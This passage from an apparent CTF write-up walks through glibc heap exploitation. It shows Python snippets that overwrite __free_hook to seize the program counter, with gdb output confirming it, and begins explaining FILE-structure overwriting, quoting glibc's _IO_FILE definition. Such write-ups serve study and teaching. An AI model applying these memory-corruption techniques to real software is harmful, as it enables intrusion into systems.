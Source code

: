 ```python
edit(4, p64(0) + p64(0x80) + p64(0))
```
By editing the contents of the last allocated chunk we would be overwriting `__free_hook`, and thus the next call to `free()` would jump to whatever address we place there.
```python
# Make fwd pointer in our chunk (which points to libc) point to __free_hook
edit(2, p64(0x2268) + p64(0) * 2)

create()
create() # idx = 11, should return a pointer to __free_hook
edit(11, p64(0x3f616973696c6f70) + p64(0) * 2)
```
```
$rax   : 0x3f616973696c6f70 ("polisia?"?)
[...]
 → 0x7f0fae43d771 <free+161>       jmp    rax
```
We control the program counter, yay! But this is nothing, we still have a handful of nothing if we don't get a leak. So let me please stand up, stretch my legs a little and go take a leak.

## Taking a leak
With the possibility of leaking an address thrown out of the window we may as well throw the challenge after it (or preferably ourselves). But I don't know, maybe I am too manly (heh no, I'm not), but I say that if we can't find a leak \*grabs a wrench\*, we should make one ourselves.

While growing up one would always hear stories, legends, myths. As a wide-eyed kid listened, not knowing whether to believe or not, details were attentively collected, hidden pieces of information. Weird houses, SROP, ret2dlresolve, JOP, far returns... and the one I'm going to talk about today, `FILE` structures overwriting.

### Glibc streams internals
So when growing up in the pwn world I heard people talking about abusing `FILE` structures, but never had the need to use them until now, so I decided to go and see the Glibc code for all this stuff, streams and all. The following is the (main part of the) definition for the `struct FILE`.
```c
/* The tag name of this struct is _IO_FILE to preserve historic
   C++ mangled names for functions taking FILE* arguments.
   That name should not be used in new code.  */
struct _IO_FILE
{
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;   /* Current read pointer */
  char *_IO_read_end;   /* End of get area. */
  char *_IO_read_base;  /* Start of putback+get area. */
  char *_IO_write_base; /* Start of put area. */
  char *_IO_write_ptr;  /* Current put pointer. */
  char *_IO_write_end;  /* End of put area. */
  char *_IO_buf_base;   /* Start of reserve area. */
  char *_IO_buf_end;    /* End of reserve area. */

// [...]
};
```
From here I want you to keep a couple of ideas.
- The field `_flags` store information about directionality of the stream, type of buffering and things like that. `stdout` has the following flags:
    - `_IO_USER_BUF`, `_IO_UNBUFFERED`, `_IO_NO_READS`, `_IO_LINKED`, `_IO_CURRENTLY_PUTTING`, `_IO_IS_FILEBUF`.
- The next eight pointers point to or inside the buffers used for writing or reading from the stream.
    - The `*_base` pointers point to the buffer itself.
    - The `*_end` pointers point to the end of the buffer.